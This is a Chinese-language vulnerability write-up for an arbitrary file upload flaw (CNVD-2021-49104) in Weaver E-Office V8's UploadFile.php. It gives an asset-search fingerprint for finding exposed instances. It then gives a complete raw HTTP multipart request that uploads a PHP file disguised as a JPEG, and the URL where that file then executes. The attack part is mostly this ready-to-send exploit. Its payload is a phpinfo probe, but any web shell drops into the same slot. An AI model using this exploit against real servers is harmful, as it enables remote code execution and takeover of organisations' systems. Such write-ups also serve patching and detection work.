

# 泛微OA E-Office UploadFile.php 任意文件上传漏洞 CNVD-2021-49104

## 漏洞描述

在/general/index/UploadFile.php中上传文件过滤不严格导致允许无限制地上传文件，攻击者可以通过该漏洞直接获取网站权限

## 漏洞影响

<a-checkbox checked>泛微OA V8</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="泛微-EOffice"</a-checkbox></br>

## 漏洞复现

登录页面


发送请求包

```bash
POST /general/index/UploadFile.php?m=uploadPicture&uploadType=eoffice_logo&userId= HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Connection: close
Accept-Language: zh-CN,zh-TW;q=0.9,zh;q=0.8,en-US;q=0.7,en;q=0.6
Cookie: LOGIN_LANG=cn; PHPSESSID=0acfd0a2a7858aa1b4110eca1404d348
Content-Length: 193
Content-Type: multipart/form-data; boundary=e64bdf16c554bbc109cecef6451c26a4

--e64bdf16c554bbc109cecef6451c26a4
Content-Disposition: form-data; name="Filedata"; filename="test.php"
Content-Type: image/jpeg

<?php phpinfo();?>

--e64bdf16c554bbc109cecef6451c26a4--
```



再访问 

```bash
/images/logo/logo-eoffice.php
```

